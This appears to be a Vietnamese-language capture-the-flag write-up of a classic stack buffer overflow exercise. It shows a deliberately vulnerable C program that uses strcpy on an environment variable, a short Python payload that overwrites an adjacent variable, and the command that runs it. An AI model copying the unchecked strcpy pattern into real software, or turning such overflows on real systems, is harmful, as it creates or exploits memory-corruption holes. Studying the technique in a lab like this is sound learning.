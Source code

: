 # Preview
Source code:
```shell
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);         <--- vuln

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

Tổng quan: 
-   Hàm char *getenv(const char *name) tìm kiếm chuỗi môi trường được trỏ tới bởi tham số name và trả về giá trị gắn kết với chuỗi đó. Giá trị sẽ được lưu vào biến variable.

-   Hàm strcpy(buffer, variable); dẫn dến lỗi tràn bộ nhớ tương tự stack1.

# Exploit

Khởi tạo biến môi trường:
```shell
└─$ export GREENIE='hello'
```
Biến môi trường nằm cuối phần nhớ nằm trong stack.

Các chỉ số và thành phần của stack tương tự stack1.

GREENIE = 64 bytes buffer[] + 4 bytes modified.

**Payload**
```shell
buffer = "a" * 64
modified = "\x0a\x0d\x0a\x0d"       # Litte endian

print(buffer + modified)
```

**Attack**
```shell
└─$ export GREENIE=$(python2 payload.py) && ./vuln
you have correctly modified the variable
```